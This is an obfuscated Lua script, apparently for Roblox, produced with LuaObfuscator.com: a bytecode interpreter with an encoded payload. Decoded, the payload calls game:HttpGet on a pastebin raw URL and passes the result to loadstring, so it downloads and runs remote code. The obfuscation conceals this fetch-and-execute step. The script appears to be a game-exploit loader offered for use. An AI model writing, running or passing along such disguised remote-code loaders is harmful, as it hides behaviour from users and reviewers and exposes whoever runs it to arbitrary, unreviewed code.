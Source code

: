 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v83=0;while true do if (v83==0) then v19=v0(v3(v30,1,1));return "";end end else local v84=0;local v85;while true do if (v84==0) then v85=v2(v0(v30,16));if v19 then local v101=v5(v85,v19);v19=nil;return v101;else return v85;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v86=0 -0 ;local v87;while true do if (v86==(0 -0)) then v87=(v31/((3 -1)^(v32-1)))%((1639 -(1523 + 114))^(((v33-(2 -(1 + 0))) -(v32-(620 -(555 + 64)))) + ((1328 -396) -((1922 -(68 + 997)) + 74)))) ;return v87-(v87%(569 -(367 + 201))) ;end end else local v88=0;local v89;while true do if (((2197 -(226 + 1044)) -(214 + (3104 -2391)))==v88) then v89=(1 + 1)^(v32-(1 + (117 -(32 + 85)))) ;return (((v31%(v89 + v89))>=v89) and (878 -(282 + 595))) or 0 ;end end end end local function v21() local v34=0 + 0 ;local v35;while true do if (v34==1) then return v35;end if (v34==((0 -0) + 0)) then v35=v1(v16,v18,v18);v18=v18 + (958 -(892 + 65)) ;v34=2 -1 ;end end end local function v22() local v36,v37=v1(v16,v18,v18 + (3 -1) );v18=v18 + (352 -(87 + 263)) ;return (v37 * (436 -(67 + 113))) + v36 ;end local function v23() local v38=0 + 0 ;local v39;local v40;local v41;local v42;while true do if ((2 -1)==v38) then return (v42 * (41190819 -(24414790 -(1069 + 118)))) + (v41 * (48199 + 17337)) + (v40 * (1017 -(1726 -965))) + v39 ;end if (v38==(997 -(915 + 82))) then v39,v40,v41,v42=v1(v16,v18,v18 + (955 -(802 + (328 -178))) );v18=v18 + 3 + 1 ;v38=1 -0 ;end end end local function v24() local v43=0 + 0 ;local v44;local v45;local v46;local v47;local v48;local v49;while true do if (v43==2) then v48=v20(v45,906 -(261 + 624) ,54 -(40 -17) );v49=((v20(v45,32 + 0 )==(792 -(368 + 423))) and  -(3 -2)) or (19 -(10 + 8)) ;v43=11 -8 ;end if (v43==(443 -((1496 -(1020 + 60)) + 26))) then v46=3 -2 ;v47=(v20(v45,1 + 0 ,35 -(1438 -(630 + 793)) ) * ((440 -(145 + 293))^((1565 -1103) -(44 + 386)))) + v44 ;v43=1488 -(998 + 488) ;end if (v43==(1 + 2)) then if (v48==(0 + 0)) then if (v47==(772 -((951 -750) + 571))) then return v49 * (1138 -(116 + 1022)) ;else local v102=0 -0 ;while true do if (v102==(0 + 0)) then v48=1 + 0 ;v46=0;break;end end end elseif (v48==(7472 -5425)) then return ((v47==0) and (v49 * ((3 -2)/(859 -(814 + (154 -109)))))) or (v49 * NaN) ;end return v8(v49,v48-1023 ) * (v46 + (v47/((4 -(1749 -(760 + 987)))^(3 + 49)))) ;end if (v43==0) then v44=v23();v45=v23();v43=1 + 0 ;end end end local function v25(v50) local v51=1913 -(1789 + 124) ;local v52;local v53;while true do if ((767 -(745 + 21))==v51) then v52=v3(v16,v18,(v18 + v50) -(1 + (0 -0)) );v18=v18 + v50 ;v51=5 -3 ;end if (v51==(7 -5)) then v53={};for v93=1 + 0 , #v52 do v53[v93]=v2(v1(v3(v52,v93,v93)));end v51=3 + (1413 -(447 + 966)) ;end if (v51==(1055 -(87 + 968))) then v52=nil;if  not v50 then v50=v23();if (v50==0) then return "";end end v51=4 -3 ;end if (v51==(3 + 0)) then return v6(v53);end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v54=(function() return 0;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();local v60=(function() return;end)();local v61=(function() return;end)();while true do local v68=(function() return 0;end)();while true do if (v68~=(0 + 0)) then else if (v54==(1 + 0)) then v59=(function() return {v56,v57,nil,v58};end)();v60=(function() return v23();end)();v61=(function() return {};end)();for v103= #"/",v60 do local v104=(function() return 0;end)();local v105=(function() return;end)();local v106=(function() return;end)();local v107=(function() return;end)();while true do if ((1750 -(1013 + 736))==v104) then v107=(function() return nil;end)();while true do if (v105~=0) then else local v165=(function() return 0 + 0 ;end)();while true do if (v165==(342 -(218 + 123))) then v105=(function() return 2 -1 ;end)();break;end if (v165~=(0 -0)) then else v106=(function() return v21();end)();v107=(function() return nil;end)();v165=(function() return 1 + 0 ;end)();end end end if (v105~=(868 -(550 + 317))) then else if (v106== #"}") then v107=(function() return v21()~=0 ;end)();elseif (v106==(2 -0)) then v107=(function() return v24();end)();elseif (v106== #"-19") then v107=(function() return v25();end)();end v61[v103]=(function() return v107;end)();break;end end break;end if (v104==(0 + 0)) then v105=(function() return 0 -0 ;end)();v106=(function() return nil;end)();v104=(function() return 1 -0 ;end)();end end end v54=(function() return 5 -3 ;end)();end if (v54==(2 + 0)) then v59[ #"gha"]=(function() return v21();end)();for v108= #" ",v23() do local v109=(function() return v21();end)();if (v20(v109, #">", #"[")==(285 -(134 + 151))) then local v140=(function() return 1665 -(970 + 695) ;end)();local v141=(function() return;end)();local v142=(function() return;end)();local v143=(function() return;end)();while true do if (v140==(1 -0)) then local v163=(function() return 290 -(60 + 230) ;end)();while true do if (v163~=0) then else v143=(function() return {v22(),v22(),nil,nil};end)();if (v141==0) then local v171=(function() return 0 + 0 ;end)();local v172=(function() return;end)();while true do if (v171==0) then v172=(function() return 1456 -(282 + 1174) ;end)();while true do if (v172~=0) then else v143[ #"91("]=(function() return v22();end)();v143[ #"asd1"]=(function() return v22();end)();break;end end break;end end elseif (v141== #" ") then v143[ #"91("]=(function() return v23();end)();elseif (v141==(813 -(569 + 242))) then v143[ #"-19"]=(function() return v23() -((1992 -(582 + 1408))^(1 + 15)) ;end)();elseif (v141~= #"gha") then else local v178=(function() return 1024 -(706 + 318) ;end)();local v179=(function() return;end)();while true do if ((1251 -(721 + 530))~=v178) then else v179=(function() return 0;end)();while true do if (v179~=(0 -0)) then else v143[ #"xxx"]=(function() return v23() -(2^(39 -23)) ;end)();v143[ #"xnxx"]=(function() return v22();end)();break;end end break;end end end v163=(function() return 1 -0 ;end)();end if (v163~=(3 -2)) then else v140=(function() return 2;end)();break;end end end if (v140~=0) then else v141=(function() return v20(v109,1826 -(1195 + 629) , #"91(");end)();v142=(function() return v20(v109, #"0836",6 + 0 );end)();v140=(function() return 1 -0 ;end)();end if (v140==(1089 -(461 + 625))) then if (v20(v142, #"nil", #"91(")== #".") then v143[ #"asd1"]=(function() return v61[v143[ #"0313"]];end)();end v56[v108]=(function() return v143;end)();break;end if (v140==(1290 -(993 + 295))) then if (v20(v142, #".", #"/")== #">") then v143[1 + 1 ]=(function() return v61[v143[243 -(187 + 54) ]];end)();end if (v20(v142,782 -(162 + 618) ,2 + 0 )== #":") then v143[ #"gha"]=(function() return v61[v143[ #"gha"]];end)();end v140=(function() return 2 + 1 ;end)();end end end end for v110= #".",v23() do v57,v110,v28=(function() return v55(v57,v110,v28);end)();end return v59;end v68=(function() return 1 -0 ;end)();end if (v68==(1 -0)) then if (v54==(0 + 0)) then local v100=(function() return 0 + 0 ;end)();while true do if ((531 -(406 + 123))~=v100) then else v54=(function() return 1637 -(1373 + 263) ;end)();break;end if (v100==(1000 -(451 + 549))) then v55=(function() return function(v157,v158,v159) local v160=(function() return 1322 -(1249 + 73) ;end)();while true do if (v160==(0 + 0)) then local v170=(function() return 0 + 0 ;end)();while true do if (v170==(0 -0)) then v157[v158-#"]" ]=(function() return v159();end)();return v157,v158,v159;end end end end end;end)();v56=(function() return {};end)();v100=(function() return 1146 -(466 + 679) ;end)();end if ((1 -0)==v100) then v57=(function() return {};end)();v58=(function() return {};end)();v100=(function() return 2;end)();end end end break;end end end end local function v29(v62,v63,v64) local v65=v62[378 -(142 + 235) ];local v66=v62[5 -3 ];local v67=v62[1903 -(106 + 1794) ];return function(...) local v69=v65;local v70=v66;local v71=v67;local v72=v27;local v73=1 + 0 ;local v74= -1;local v75={};local v76={...};local v77=v12("#",...) -1 ;local v78={};local v79={};for v90=0 -(476 -(41 + 435)) ,v77 do if ((v90>=v71) or (2408<2109)) then v75[v90-v71 ]=v76[v90 + 1 ];else v79[v90]=v76[v90 + (2 -1) ];end end local v80=(v77-v71) + 1 + 0 ;local v81;local v82;while true do v81=v69[v73];v82=v81[115 -(4 + 110) ];if (v82<=(587 -((1058 -(938 + 63)) + 527))) then if (v82<=(1428 -(41 + 1386))) then if (v82>(0 -0)) then local v111;local v112,v113;local v114;local v115;v79[v81[105 -(17 + 86) ]]={};v73=v73 + 1 ;v81=v69[v73];v79[v81[2 + 0 ]]=v64[v81[6 -(3 + 0) ]];v73=v73 + ((1127 -(936 + 189)) -1) ;v81=v69[v73];v79[v81[5 -(1 + 2) ]]=v64[v81[169 -(122 + 44) ]];v73=v73 + (1 -0) ;v81=v69[v73];v115=v81[6 -4 ];v114=v79[v81[1332 -(797 + 532) ]];v79[v115 + (1614 -(1565 + 48)) + 0 ]=v114;v79[v115]=v114[v81[1 + 2 + 1 ]];v73=v73 + (1 -0) ;v81=v69[v73];v79[v81[4 -2 ]]=v81[68 -(30 + 35) ];v73=v73 + 1 + 0 ;v81=v69[v73];v115=v81[2];v112,v113=v72(v79[v115](v13(v79,v115 + (1258 -(1043 + 214)) ,v81[3])));v74=(v113 + v115) -(3 -(1140 -(782 + 356))) ;v111=1212 -(323 + 889) ;for v144=v115,v74 do v111=v111 + (2 -1) ;v79[v144]=v112[v111];end v73=v73 + (581 -(361 + 219)) ;v81=v69[v73];v115=v81[322 -(53 + 267) ];v79[v115]=v79[v115](v13(v79,v115 + 1 + 0 ,v74));v73=v73 + (414 -(15 + 398)) ;v81=v69[v73];v79[v81[984 -(18 + 964) ]]();v73=v73 + (217 -(42 + 174)) ;v81=v69[v73];do return;end else v79[v81[7 -5 ]]();end elseif ((v82>((269 -(176 + 91)) + 0)) or (33==1455)) then v79[v81[2]]=v81[(4 -2) + 1 ];else v79[v81[852 -(20 + 830) ]]={};end elseif ((v82<=((5 -1) + 1)) or (443>=4015)) then if ((3382>166) and (v82==((1222 -(975 + 117)) -(116 + 10)))) then local v134=0 -0 ;local v135;while true do if (v134==(0 + 0)) then v135=v81[2 + 0 ];v79[v135]=v79[v135](v13(v79,v135 + (1976 -((3788 -(157 + 1718)) + 62)) ,v74));break;end end else local v136=v81[740 -(440 + 102 + 196) ];local v137,v138=v72(v79[v136](v13(v79,v136 + (1 -0) ,v81[7 -4 ])));v74=(v138 + v136) -1 ;local v139=0 + 0 ;for v147=v136,v74 do v139=v139 + 1 + 0 ;v79[v147]=v137[v139];end end elseif (v82<=((10 -7) + 3)) then do return;end elseif (v82==(18 -11)) then local v150=v81[4 -2 ];local v151=v79[v81[3 -(0 -0) ]];v79[v150 + (1552 -((2144 -(697 + 321)) + 425)) ]=v151;v79[v150]=v151[v81[409 -(118 + 287) ]];else v79[v81[7 -5 ]]=v64[v81[1124 -((321 -203) + 1003) ]];end v73=v73 + (2 -1) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F4276484E584E726400094Q00017Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
